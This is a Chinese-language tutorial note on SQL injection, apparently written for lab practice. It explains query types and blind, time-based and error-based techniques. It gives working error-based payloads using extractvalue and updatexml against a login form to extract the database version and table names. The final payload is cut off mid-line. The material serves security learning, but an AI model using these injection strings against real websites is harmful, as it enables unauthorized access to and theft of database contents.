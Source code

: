 # SQL注入之查询方式

当进行SQL注入时，有很多注入会出现无回显的情况，其中不回显得原因可能时SQL语句查询方式问题导致，这个时候我们需要用到报错或者盲注进行后续操作，同时在注入的过程中，提前了解其中SQL语句可以更好的选择对应的注入语句。

select 查询数据

例如：在网站应用中进行数据显示查询操作

```
select * from user where id=$id
```

## delete 删除数据

例如：后台管理里面删除文章删除用户等操作

```
delete from user where id=$id
```

## insert 插入数据

例如：在网站应用中进行用户注册添加操作

```
inser into user （id,name,pass） values(1,'zhangsan','1234')
```

## update 更新数据

例如：后台中心数据同步或者缓存操作

```
update user set pwd='p' where id=1
```

# SQL注入 报错盲注

盲注就是在注入的过程中，获取的数据不能显示到前端页面，此时，我们需要利用一些方法进行判断或者尝试，我们称之为盲注。我们可以知道盲注分为以下三类：

### 1.基于布尔的SQL盲注 - 逻辑判断

regexp like ascii left ord mid

### 2.基于时间的SQL盲注 - 延时判断

if sleep

### 3.基于报错的SQL盲注 - 报错回显（强制性报错   ）

函数解析：

**updatexml():从目标XML中更改包含所查询值的字符串**

第一个参数：XML_document 是String格式，为XML文档对象的名称，文中为DOC

第二个参数：XPath_string(Xpath格式字符串)

第三个参数：new_value,String格式，替换查找到的符合条件的数据

updatexml（XML_document,XPath_String,new_value）;



**extractvalue():从目标XML中返回包含所查询值的字符串**

第一个参数：XML_document 是String格式，为XML文档对象的名称，文中为DOC

第二个参数：XPath_String (Xpath格式字符串)

extractvalue(XML_document,XPath_String)

extractvalue函数应用：

通过下图可以对xpath路径有一定的了解

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645865257000/54b8dd46c3ae496297e6610d3d8530d2.png)

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645865257000/c6b4a764335541d290e8c59fb9a1daf2.png)

首先在proxy处通过右键点击send to repeater,就可以点击repeater到下图的界面。

![image-20240716003212037](4.1_2 SQL注入之查询方式/image-20240716003212037.png)	

sql报错注入代码,可以通过报错信息查看当前网页所使用的数据库版本。

extractvalue只需要让xpath路径填错，那么这个函数就会把第二个参数所执行的错误信息输出出来。又因为显示版本只有一部分，所以需要加上concat函数来进行拼接，从而使得显示完整

```
uname=hsw' union select 1,extractvalue(1,concat('~',(select version()))) #&passwd=123456&submit=Submit
```

![image-20240716004315428](4.1_2 SQL注入之查询方式/image-20240716004315428.png)	

sql注入语句,可以进一步查看该网页的数据库有哪些表

limit 0,1是表示查看当前数据的第一条,并只显示一行。因为在repeater中不能显示多行。

```
uname=hsw' union select 1,extractvalue(1,concat('~',(select table_name from information_schema.tables where table_schema=database() limit 0,1))) #&passwd=123456&submit=Submit
```

![image-20240716004606698](4.1_2 SQL注入之查询方式/image-20240716004606698.png)	

使用updatexml函数也是一样的道理,只要让xpath路径故意填错，从而通过错误提示信息得知数据库的版本号。

```
uname=hsw' union select 1,updatexml(1,concat('~',(select version())),2) #&passwd=123456&submit=Submit
```

![image-20240716005053763](4.1_2 SQL注入之查询方式/image-20240716005053763.png)	

使用or也可以拿来代替union的效果。

```
uname=hsw' or updatexml(1,concat('~',(select version())),2) #&passwd=123456&submit=Submit
```

![image-20240716005301500](4.1_2 SQL注入之查询方式/image-20240716005301500.png)	





floor()向下取整  floor（10.5）  =  10
rand（）随机数 0 ~ 1之间
count（*）函数返回表的记录数。
concat函数：将多个字符串连接成一个字符串
group_by 根据by对数据按照哪个字段、进行分组，或者是哪几个字段进行分组（去重）。
会建立一张临时表
注意：多个字段分组要使用某个列的聚合函数 cout sum等

pikachu insert

username=x' or (select 1 from (select count(*),concat((select))

